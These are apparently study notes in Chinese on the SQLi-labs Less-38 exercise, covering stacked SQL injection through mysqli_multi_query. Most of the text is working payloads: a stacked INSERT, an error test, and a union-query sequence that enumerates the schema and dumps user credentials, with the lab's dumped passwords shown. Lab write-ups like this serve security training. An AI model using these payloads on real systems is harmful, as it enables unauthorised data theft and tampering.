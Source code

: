 ```yaml
---
title: less38
url: https://www.yuque.com/u29002979/ep2zrx/cup2xex5a1s03t2k
---
```


```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
/* execute multi query */
if (mysqli_multi_query($con1, $sql))
```

** mysqli\_multi\_query()**这个函数可以实现针对数据库一条或多多条数据的操作
这就导致可能产生**堆叠注入**的存在，
堆叠注入可以实现**数据的增删改查**，木马的写入，甚至直接破坏,升格数据库 <a name="cmHrI"></a>

# 堆叠注入

插入一条数据在users字段中,两条不同sql语句用 分号隔开 **；**&#x20;
`?id=1'**;** insert into users(username,password)values('duidie','duidiezhuru')--+` &#x20;
&#x20;数据插入后页面没有回显，通过查询查看
`id=-1' union select 1,2,(select group_concat(username,0x7e,password)from users)--+`

> Your Username is : 2
> Your Password is : Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~1234,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4,admin'-- +~123456,duidie~duidiezhuru

添加数据成功 <a name="bzYh1"></a>

# 注入点测试

`?id=1'`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

单引号'闭合 <a name="PF74E"></a>

# 联合查询

```bash
判断字段数 
?id=1' order by 4--+ 
?id=1' order by 3--+

找回显点
?id=-1' union select 1,2,3--+  

爆破数据库名称
?id=-1' union select 1,2,database()--+

爆破数据库表名称
?id=-1' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+

爆破字段名称
?id=-1' union select 1,2,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users'--+

爆破字段内容
?id=-1' union select 1,2,(select group_concat(username,0x7e,password) from users)--+
```

